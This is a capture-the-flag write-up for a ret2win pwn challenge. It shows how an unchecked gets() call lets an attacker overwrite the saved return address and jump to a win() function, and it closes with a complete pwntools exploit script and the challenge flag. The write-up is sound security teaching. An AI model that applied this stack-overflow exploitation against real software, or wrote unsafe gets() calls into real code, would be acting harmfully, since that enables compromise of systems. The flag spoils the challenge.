 # wetuwn-addwess

## Challenge

The program asks for our name, then repeats our name and prints the return address.

```
What's your name?
Green-Avocado
Hello Green-Avocado! Let's go to 0x681d73df1b25
```

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

We have an unsafe call to `gets`, similar to the "owoverflow" challenge.
However, this time there are no other stack variables to overwrite.

If we disassemble the `main` function:

```asm
┌ 205: int main (int64_t argc);
│           ; var char *s @ rbp-0x30
│           ; var file*stream @ rbp-0x8
│           ; arg int64_t argc @ rbp+0x8
```

we see that te variables are arranged as follows:

```
(40) name
 (8) flagfile
 (8) saved RBP
 (8) saved RIP
```

There is no canary, so we can overwrite the saved RBP and RIP.

The saved RIP is important as it determines where to execute instructions from when we return.
Normally, this would be in the caller function.
If we overwrite this saved value, we can choose what address to return to.

The function prints the return address before it returns.
If we write 56 bytes of padding, we can overwrite the saved RIP with the next 8 bytes:

```
$ ./wetuwn-addwess                       
What's your name?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAAAAAA
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAAAAAA! Let's go to 0x4141414141414141
```

We successfully controlled the return address and changed it to 0x4141414141414141!

Note that there is a `win` function which prints the flag:

```c
void win() {
    puts(flag);
}
```

If we can change the return address to go to this function, it'll print the flag.
Let's get the address of this function:

Using objdump:

```
$ objdump -t wetuwn-addwess | grep win  
0000000000401216 g     F .text	0000000000000017              win
```

Using radare2:

```
$ r2 wetuwn-addwess
 -- There's a branch for that.
[0x00401130]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x00401130]> afl~win
0x00401216    1 23           sym.win
```

Using pwntools:

```py
>>> from pwn import *
>>> exe = ELF('wetuwn-addwess')
[*] '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-addwess/wetuwn-addwess'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
>>> exe.sym['win']
4198934
>>> hex(_)
'0x401216'
```

Note tha PIE is disabled.
We can use these addresses as is, since the base address won't be randomized.

Let's pack the address of `win` and send it at an offset of 56 bytes:

```py
>>> from pwn import *
>>> exe = ELF('wetuwn-addwess')
>>> payload = flat({ 56: p64(exe.sym['win']) })
>>> io = exe.process()
[x] Starting local process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-addwess/wetuwn-addwess'
[+] Starting local process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-addwess/wetuwn-addwess': pid 2172632
>>> io.sendline(payload)
>>> io.interactive()
[*] Switching to interactive mode
[*] Process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-addwess/wetuwn-addwess' stopped with exit code -11 (SIGSEGV) (pid 2172632)
What's your name?
Hello aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaa@! Let's go to 0x401216
maple{r3turn_t0_w1n}

[*] Got EOF while reading in interactive
```

We successfully overwrite the return address with the address of our win function and got the flag!

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1339 ret2win
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('wetuwn-addwess')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1339)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

payload = flat({
    0x30 + 0x8: exe.sym['win'],
    })

io.sendlineafter(b"What's your name?", payload)

io.interactive()
```

## Flag

```
maple{r3turn_t0_w1n}
```
